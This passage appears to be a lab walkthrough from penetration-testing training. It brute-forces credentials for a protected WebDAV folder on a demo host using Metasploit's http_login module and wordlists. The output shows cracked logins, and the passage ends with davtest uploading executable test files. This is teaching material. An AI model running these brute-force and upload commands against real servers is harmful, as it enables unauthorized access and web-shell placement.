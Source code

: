 We notice that the `/webdav` path is protected and receives HTTP code 401 error (i.e. unauthorized).

Multiple tools are available to run brute-force attacks to find valid credentials to access the protected directory.
With the help of those credentials, we can access the `/webdav**` folder, where we might have the file upload access.

**Step 4**.

Before, we run the brute-force attack. Let's identify the password authentication type (i.e. basic or digest).

`davtest -url http://demo.ine.local/webdav`:
```
********************************************************
 Testing DAV connection
OPEN            FAIL:   http://demo.ine.local/webdav    Unauthorized. Basic realm="demo.ine.local" ←
```

**Step 5**.

`msfconsole -q`, `search http login`, `use auxiliary/scanner/http/http_login`, `show options`, `set demo.ine.local`, `set AUTH_URI /webdav/`, `set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt`, `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`, `set VERBOSE false`, `exploit`:
```
[*] Attempting to login to http://demo.ine.local:80/webdav/ (10.4.21.235)
[+] 10.4.21.235:80 - Success: 'bob:sunshine' ←
[+] 10.4.21.235:80 - Success: 'administrator:tigger' ←
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

**Step 6**.

*DAVTest* tests WebDAV-enabled servers by uploading executable test files and then (optionally) uploading files that allow for command execution or other actions directly on the target. It is meant for penetration testers to quickly and easily determine if enabled DAV services are exploitable.
DAVTest supports:
- Automatically send exploit files
- Automatic randomization of the directory to help hide files
- Send text files and try MOVE to the executable name
- Basic and Digest authorization
- Automatic clean-up of uploaded files
- Send an arbitrary file

Let's run the davtest and enumerate the /webdav folder for uploadable and executable files.

`davtest -url http://demo.ine.local/webdav -auth administrator:tigger`:
```
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://demo.ine.local/webdav
********************************************************
NOTE    Random string for this session: kUGSP8z7
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://demo.ine.local/webdav/DavTestDir_kUGSP8z7
********************************************************
 Sending test files
PUT     jhtml   SUCCEED:        http://demo.ine.local/webdav/DavTestDir_kUGSP8z7/davtest_kUGSP8z7.jhtml
PUT     txt     SUCCEED:        http://demo.ine.local/webdav/DavTestDir_kUGSP8z7/davtest_kUGSP8z7.txt
PUT     asp     SUCCEED:        http://demo.ine.local/webdav/DavTestDir_kUGSP8z7/davtest_kUGSP8z7.asp
```